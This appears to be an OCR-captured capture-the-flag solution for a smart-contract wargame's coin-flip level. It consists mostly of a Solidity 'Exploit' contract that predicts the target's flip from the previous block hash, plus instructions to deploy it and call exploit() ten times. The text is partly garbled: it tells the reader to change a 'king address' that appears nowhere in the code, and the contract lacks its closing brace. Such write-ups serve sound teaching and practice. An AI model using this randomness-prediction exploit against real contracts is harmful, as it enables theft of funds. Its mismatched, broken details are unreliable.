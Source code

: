 Change the value of the king address below to your contract instance


Deploy the contract to the same network

```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.6.0;

  interface CoinFlip {
      function flip(bool) external returns (bool);
  }

contract Exploit {

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function exploit(address _who) public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(_who).flip(side);
    }
```

call exploit() 10 times, making sure to wait enough for a new block
